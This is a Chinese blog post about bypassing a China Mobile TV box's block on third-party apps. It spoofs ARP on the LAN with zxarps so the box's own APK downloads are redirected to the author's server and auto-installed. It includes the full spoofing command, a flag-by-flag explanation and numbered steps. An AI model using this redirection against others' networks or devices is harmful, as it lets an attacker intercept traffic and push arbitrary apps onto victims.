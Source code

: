 ```yaml
---
layout: post
title: Hack移动魔盒，安装第三方应用
tags: [杂文]
---
```


最近安装了移动电视魔盒，可电视节目很无聊，想着安装个直播软件应用。可不得不说移动还是很坏的，内置的应用市场里面该有的应用一概没有。我轻视的一笑，这能难道我？找了个U盘，把应用copy进去，再插到盒子上，点开apk安装，动作一气呵成。正当我准备帅气回头的时候，屏幕上跳出一个弹框：不支持第三方应用安装，，，what the f***？？？移动真是太坏了，内置应用少不说，还不让别人安装应用。。。

百度了下，发现并没有太多的解决办法，甚至连改电路板都用上了，至于吗。。。

### 问题分析

先来分析下盒子的情况：

- 盒子是Android 定制系统

- 通过内置应用市场，可以安装应用
- 点击主页的某个功能，会先下载APK，并会自动安装
- 通过U盘无法安装
- 定制系统应该是修改了Android的安装api，并有自己的安装api
- 虽然是Android系统，但是无法直接调试它

结论是：盒子通过私有api是可以安装第三方应用的，而原Android的安装api被修改了。

<br/>

### 解决思路

要如何绕过这个限制呢？转换下思路：可不可以Hack魔盒原本要下载的APK文件，替换成要安装的第三方APK呢？这样就不用关心系统定制的问题，反正魔盒会在下载完成后自动安装。

实践证明，这个思路是可行的，借助局域网ARP欺骗来Hack下载的文件地址：

```bash
zxarps.exe -idx 0 -ip 192.168.1.35 -spoofmode 3 -postfix ".apk" -hackurl http://192.168.1.28/apk/ -filename douyu.apk
```

使用`zxarps` 软件，上面的命令中：

- `-ip 192.168.1.35` 表示要欺骗的ip地址，也就是魔盒的ip地址
- `-spoofmode 3` 表示将数据骗发到本机。 1：网关，2：目标机，3：both
- `-postfix ".apk"` 表示关注的文件后缀名
- `-hackurl http://192.168.1.28/apk/` 表示当发现有关注的文件下载时，将url地址修改为这个url
- `-filename douyu.apk` 表示替换后要下载的资源

<br/>

### 具体步骤

更具体的就是：

1. 电脑跟魔盒在一个局域网内。电脑ip是192.168.1.28，魔盒ip是192.168.1.35。
2. 起一个服务器，做hack的第三方应用下载服务器。
3. 下载要安装的第三方应用，放到下载服务器的相应位置。
4. 执行上面的ARP欺骗命令，监听魔盒的文件下载。
5. 在魔盒主页点击某个功能，触发魔盒下载应用。
6. 若一切正常，魔盒会去下载`http://192.168.1.28/apk/douyu.apk`
7. 下载完成之后，魔盒开始自动安装。等安装完成后，在`我的应用`中就能看到第三方应用了。

<br/>

### 参考

[局域网ARP欺骗](https://www.cnblogs.com/xcj26/articles/6073411.html)

[zxarps命令](http://huaidan.org/archives/864.html)